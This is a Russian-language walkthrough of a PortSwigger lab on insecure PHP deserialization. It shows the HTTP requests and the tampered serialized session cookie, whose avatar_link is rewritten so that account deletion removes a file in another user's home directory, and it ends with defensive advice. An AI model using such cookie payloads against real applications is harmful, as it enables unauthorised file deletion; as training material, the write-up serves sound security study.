

## Использование функциональности приложения


лаба https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization

задание:
отредактируйте сериализованный объект в сеансовом файле cookie и используйте его для удаления `morale.txt` файл из домашнего каталога Карлоса


даны две учетки 
wiener:peter
и 
gregg:rosebud

-------


на сайте вижу функционал загрузки аватарки

ну я сразу загрузил картинку с ъуъ
причем удалить картинку невозможно )
и новую загрузить тоже




при повторном нажатии на загрузку
запрос
```http
POST /my-account/avatar HTTP/2
Host: 0a55006503b9dab388da8278000300bd.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
Content-Length: 287
....
..
.

------WebKitFormBoundarytZ3rAfLp1A3kAnlt
Content-Disposition: form-data; name="avatar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarytZ3rAfLp1A3kAnlt
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarytZ3rAfLp1A3kAnlt--
```

вылетает ошибка
500 Internal Server Error
```text

PHP Fatal error: 

 Uncaught Exception: Error in file upload: 4 in 
 
 /home/carlos/avatar_upload.php:6
 
Stack trace:

#0 {main}
  thrown in /home/carlos/avatar_upload.php on line 6
  
```

от сюда вижу путь    /home/carlos/avatar_upload.php:6


----

обновил свою страницу с уже загруженной картинкой

картинка подгружается по   
/avatar?avatar=wiener
```http
GET /avatar?avatar=wiener HTTP/2
Host: 0a55006503b9dab388da8278000300bd.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```

сам профиль 
/my-account?id=wiener
```http
GET /my-account?id=wiener HTTP/2
Host: 0a55006503b9dab388da8278000300bd.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```


в самом html страницы ничего интересного не нашел


-----

тепрь к обьекту перейдем (который везде тут мелькает):

Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d

раскодировал

O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m81h7ydmi8ukv5kv5t2rzazn32oj46o0";s:11:"avatar_link";s:19:"users/wiener/avatar";}

видно что здесь закодирован путь/команда для подгрузки аватарки
s:11:"avatar_link";s:19:"users/wiener/avatar"

-----------

пробую удалить аккаунт и посмотеть функционал удаления

запрос
/my-account/delete
```http
POST /my-account/delete HTTP/2
Host: 0a55006503b9dab388da8278000300bd.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```

Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJtODFoN3lkbWk4dWt2NWt2NXQycnphem4zMm9qNDZvMCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d

декодировал

O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m81h7ydmi8ukv5kv5t2rzazn32oj46o0";s:11:"avatar_link";s:19:"users/wiener/avatar";}

"avatar_link";s:19:"users/wiener/avatar"  ЭТО ВИДИМО ПУТЬ ТОГО - че и где удалять

тоже самое тут, что и везде.
но знаю тперь путь /my-account/delete

----
вошел в запасной аакаунт gregg, так как тот я удалил

-----

мне нужно удалить   `morale.txt` файл из домашнего каталога Карлоса

оригинал 
хочу его так поменять - чтобы при удалении аккаунта - удалился и файл morale.txt по дирректории  /home/carlos/morale.txt  дирректорию я узнал в начале расследования еще

O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m81h7ydmi8ukv5kv5t2rzazn32oj46o0";s:11:"avatar_link";s:19:"users/wiener/avatar";}

-------------
меняю на

O:4:"User":3:{s:8:"username";s:6:"gregg";s:12:"access_token";s:32:"x185kp1p42u0ufudi13ohl2m6eoamk2m";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}


кодирую

Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6IngxODVrcDFwNDJ1MHVmdWRpMTNvaGwybTZlb2FtazJtIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=

ошибка 
PHP Fatal error:  Uncaught Exception: unserialize() failed in /var/www/index.php:4
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 4
  
-------------

видимо нужно указать и имя карлоса
но наверно нужно тогда и с токеном разобраться , если не сработает

O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"x185kp1p42u0ufudi13ohl2m6eoamk2m";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

ошибка  Invalid access token for user carlos

```
PHP Fatal error:  

Uncaught Exception: 
(DEBUG: $access_tokens[$user-&gt;username] = l40y05ydlt9jwbj13zunbjmby44sp41o, 
$user-&gt;access_token = x185kp1p42u0ufudi13ohl2m6eoamk2m, $access_tokens = [l40y05ydlt9jwbj13zunbjmby44sp41o, x185kp1p42u0ufudi13ohl2m6eoamk2m, m81h7ydmi8ukv5kv5t2rzazn32oj46o0]) 

Invalid access token for user carlos in /var/www/index.php:8
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 8
```

---

попробую избавиться от токена как в прошлой лабе

O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";i:0;s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

снова ошибка   Invalid access token for user carlos

------------

вернул снова свой аккаут 
только к своему токену подствлю свой ник gregg
подменил как обычно путь /home/carlos/morale.txt"

O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"x185kp1p42u0ufudi13ohl2m6eoamk2m";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

закодировал b64

Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6IngxODVrcDFwNDJ1MHVmdWRpMTNvaGwybTZlb2FtazJtIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=

⭐️🔥 лаба решена!!!!!

-----------


странно , но я так уже делал  и было ошибка
 
вот тот пейлоад 

O:4:"User":3:{s:8:"username";s:6:"gregg";s:12:"access_token";s:32:"x185kp1p42u0ufudi13ohl2m6eoamk2m";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

вот тот что сработал 

O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"x185kp1p42u0ufudi13ohl2m6eoamk2m";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}


епте, приехали, я не умею теперь считать до 5? 
ошибка была тут ;s:6:"gregg" здесь 5 а не 6 букв!
из-за невнимательности +10 мин добавилось к решению лабы!

--------


## как защититься от таких атак

не выводить ошиби юзеру, или не выводить в ошибках подсказки технические

никогда не десериализовать данные от пользователя, это главное правило, если нельзя избежать — использовать цифровую подпись hmac чтобы убедиться что объект не подменили

не использовать пути к файлам из пользовательских данных для операций удаления, если без этого нельзя — проверять что путь ведёт в разрешённую директорию (белый список)

использовать строгое сравнение `===` для токенов, а не `==`, чтобы избежать type juggling

хранить пути к аватаркам не в сериализованной куке, а в базе данных на сервере, привязанными к пользователю

при удалении аккаунта удалять только файлы самого пользователя, проверять что путь действительно принадлежит ему

проверять длину строк и типы данных при десериализации, не доверять что они корректны

использовать топ современную версию php (8+) где исправлены многие проблемы сравнения